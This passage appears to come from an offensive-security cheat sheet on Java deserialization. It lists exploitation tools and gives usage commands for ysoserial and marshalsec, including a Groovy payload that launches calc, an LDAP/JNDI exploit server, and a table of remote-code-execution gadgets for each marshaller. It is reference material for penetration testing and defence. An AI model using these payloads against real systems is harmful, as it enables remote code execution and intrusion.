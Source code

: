 
### Alternative Tooling

- [pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget) - Pure JRE 8 RCE Deserialization gadget
- [joaomatosf/JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
- [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) - A fork of the original ysoserial application 
- [NickstaDB/SerialBrute](https://github.com/NickstaDB/SerialBrute) - Java serialization brute force attack tool
- [NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) - A tool to dump Java serialization streams in a more human readable form
- [bishopfox/gadgetprobe](https://labs.bishopfox.com/gadgetprobe) - Exploiting Deserialization to Brute-Force the Remote Classpath
- [k3idii/Deserek](https://github.com/k3idii/Deserek) - Python code to Serialize and Unserialize java binary serialization format. 
  ```java
  java -jar ysoserial.jar URLDNS http://xx.yy > yss_base.bin
  python deserek.py yss_base.bin --format python > yss_url.py
  python yss_url.py yss_new.bin
  java -cp JavaSerializationTestSuite DeSerial yss_new.bin
  ```
- [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Turning your data into code execution
  ```java
  $ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
  $ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
  $ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
  // -a - generates/tests all payloads for that marshaller
  // -t - runs in test mode, unmarshalling the generated payloads after generating them.
  // -v - verbose mode, e.g. also shows the generated payload in test mode.
  // gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  // arguments - Gadget specific arguments
  ```

Payload generators for the following marshallers are included:

| Marshaller                      | Gadget Impact                                |
| ------------------------------- | ---------------------------------------------- |
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization various third party libraries RCEs |
| Hessian&#124;Burlap             | various third party RCEs |
| Castor                          | dependency library RCE |
| Jackson                         | **possible JDK only RCE**, various third party RCEs |
| Java                            | yet another third party RCE |
| JsonIO                          | **JDK only RCE** |
| JYAML                           | **JDK only RCE** |
| Kryo                            | third party RCEs |
| KryoAltStrategy                 | **JDK only RCE** |
| Red5AMF(0&#124;3)               | **JDK only RCE** |
| SnakeYAML                       | **JDK only RCEs** |
| XStream                         | **JDK only RCEs** |
| YAMLBeans                       | third party RCE |
